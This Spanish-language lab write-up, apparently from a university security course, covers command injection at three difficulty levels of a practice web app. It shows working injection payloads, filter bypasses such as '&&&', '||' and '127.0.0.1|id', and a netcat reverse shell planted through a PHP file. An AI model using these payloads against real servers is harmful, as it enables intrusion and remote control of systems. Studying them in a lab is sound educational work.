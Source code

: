 # Command Injection

La vulnerabilidad de inyección de comandos es una vulnerabilidad de seguridad que permite a un atacante ejecutar comandos arbitrarios en el sistema operativo del servidor. Esto puede conducir a la ejecución de comandos arbitrarios en el sistema operativo del servidor.

## Bajo

El planteamiento seguido ha sido el de ejecutar un comando despues de otro, para ello, hemos completado el `ping -c 4` con una ip y a continueación hemos añadido la sentencia `; id` para mostrar el usuario que ejecuta el servicio web.

```bash
127.0.0.1 > /dev/null; id
```

## Medio

Para este nivel, vemos que entradas como las siguientes no funcionan, esto es debido a que el servidor esta eliminando expresiones como `;` y `&&`.

```bash
127.0.0.1 > /dev/null; id
127.0.0.1 > /dev/null && id
```

Sin embargo, podemos aprovechar que la implementacion no es segura y con alguna pequeña modificación podemos bypassear la protección.

```bash
127.0.0.1 > /dev/null &&& id # (&& * N) + 3& -> [&&&, &&&&&, &&&&&&&]
```
```bash
- || id
```

--- 

### Reverse shell

```bash
- || echo '<?php system("nc 127.0.0.1 4000 -e /bin/bash"); ?>' > shell.php
```

```bash	
nc -lvnp 4000
```

```bash
- || php shell.php
```

## Alto

En este nivel, vemos que el servidor esta filtrando la entrada de comandos, por lo que no podemos ejecutar comandos arbitrarios. Sin embargo, al probar el comando utilizado para el nivel medio, vemos que el servidor esta fallando al filtrar la entrada.

```bash
- || id
```

Se ha detectado otra brecha al escribir el siguiente comando sin ningún espacio.

```bash
127.0.0.1|id
```

![challenge](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/CI/assets/challenge-1.png)


